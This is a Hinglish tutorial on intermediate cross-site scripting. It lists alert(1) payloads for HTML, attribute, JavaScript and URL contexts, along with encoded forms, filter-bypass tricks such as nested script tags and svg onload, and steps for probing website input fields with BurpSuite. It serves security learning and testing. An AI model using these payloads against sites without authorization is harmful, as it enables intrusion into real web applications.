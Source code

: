 # XSS Intermediate Level
Yahan se tu seekhega:

- Different XSS contexts kya hote hain
- Encoded payloads kahan use karne hain
- Bypass techniques kya hoti hain
- Real websites jese input fields mein XSS kaise test karte hain
- BurpSuite mein XSS detection kaise hota hai

---

### ✅ Step 1: XSS Contexts — Kahan kaunsa payload use hota hai?

| 🔍 Context         | Reflection jahan hoti hai       | Example Payload             |
| ------------------ | ------------------------------- | --------------------------- |
| HTML Context       | `<div>input_here</div>`         | `<script>alert(1)</script>` |
| Attribute Context  | `<img src="input_here">`        | `x" onerror="alert(1)`      |
| JavaScript Context | `var a = "input_here"`          | `";alert(1);//`             |
| URL Context        | `<a href="input_here">`         | `javascript:alert(1)`       |
| Event Handler      | `<button onclick="input_here">` | `alert(1)`                  |

---

### Step 2: Encoding — Jab tag block ho to encoding se kaam chalate hain

| Payload                 | Encoded                         |
| ----------------------- | ------------------------------- |
| `<script>`              | `%3Cscript%3E`                  |
| `"`                     | `%22`                           |
| `'`                     | `%27`                           |
| `<svg onload=alert(1)>` | `%3Csvg%20onload%3Dalert(1)%3E` |

---

### Step 3: XSS Bypass Techniques


| Technique                                 | Example                                                           |
| ----------------------------------------- | ----------------------------------------------------------------- |
| Using HTML entities                       | `<scr<script>ipt>alert(1)</scr<script>ipt>`                       |
| Breaking out of attributes                | `x" onmouseover="alert(1)`                                        |
| Using different tags                      | `<svg/onload=alert(1)>`, `<math><mi//xlink:href="data:x"></math>` |
| Using backticks (template literals) in JS | `` `alert(1)` ``                                                  |

---

### Step 4: BurpSuite se XSS find karna (Manual way)

- Intercept on karo
- Target site pr search box ya input fill karo
- Request intercept ho jaaye to Repeater mein bhejo

Payload try karo (e.g., ```<script>alert(1)</script>```, then encoded version)

Response tab mein dekho payload reflect ho raha ya encode ho gaya

Agar reflect ho raha hai — payload tweak karo until alert aaye!

---

### ✅ Step 5: Real-World Website Example XSS Testing Strategy
Website open karo (example: search bar page)

Type: test123

Inspect element karo:

Dekho test123 kahan gaya? HTML, Attribute, ya JS?

Wahan pe match karta payload try karo

Response source (Ctrl+U) bhi check karo — burp bhi use karo

---

### 🧠 Real-World Tip:
"Har website mein XSS tabhi milta hai jab input → output flow directly ho
Aur developer usko properly sanitize/escape na kare."

🔚 Tera Level 2 Done Jab Tu Ye Kar Le:
✅ Tu context samajh jaaye
✅ Tu decide kar sake ke kaunsa payload kahan chalayega
✅ Tu BurpSuite mein XSS detect kar sake
✅ Tu bypass try kar sake jab normal script block ho

